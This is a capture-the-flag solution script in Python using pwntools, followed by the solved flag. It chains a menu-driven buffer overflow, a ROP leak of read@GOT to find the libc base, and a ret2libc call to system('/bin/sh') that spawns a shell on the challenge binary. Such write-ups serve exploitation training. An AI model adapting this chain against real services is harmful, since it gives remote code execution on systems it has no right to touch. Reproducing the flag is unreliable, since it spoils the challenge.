 ```python
gdbscript = '''
continue
'''.format(**locals())

# First Stage
BOF_PROC = 1073741824
WIN_ADDR = 0x0000000000400b37
FIRST_PAYLOAD = 0x400b37aaaaaaaa

# Second Stage
PADDING = 120
RET = gadgets.ret.address
POP_RDI = gadgets.rdi.address

# ------- Functions ------- # 

def setup_bof():
    print("[+] Jumping to banhos_turcos()\n")
    baklava(str(FIRST_PAYLOAD).encode())
    durum_doble(str(BOF_PROC).encode())
    print("[*] Done! Send your ROP Chain after the prompt! \n")

def baklava(buf):
    io.sendlineafter(b'> ', b'5')
    io.sendlineafter(b':', buf)

def durum_doble(buf):
    io.sendlineafter(b'> ', b'4')
    io.sendlineafter(b'>', buf)

def leak():
    buf = b'A' * PADDING
    buf += flat(POP_RDI) + flat(exe.got.read)
    buf += flat(exe.plt.puts)
    buf += flat(exe.sym.banhos_turcos)
    io.send(buf)
    io.recvlines(3) # Blank lines 
    read_leak = u64(io.recvline().strip().ljust(8, b'\x00'))
    libc.address = read_leak - libc.sym.read
    print(f"[*] Leaked read@GOT address! --> 0x{read_leak:02x}")
    print(f"[*] Leaked base@libc address! --> 0x{libc.address:02x}\n")

def shell():
    buf = b'A' * PADDING
    buf += flat(POP_RDI) + flat(next(libc.search(b'/bin/sh\x00')))
    buf += flat(libc.sym.system)
    io.send(buf)
    print("[!] Shell! \n")

# -------- Exploitation -------- #
io = start()

setup_bof()
leak()
shell()

io.interactive()

```


**SOLVED - flag{c0m0_entra_un_kebab_enc1ma_kebab_chaval}**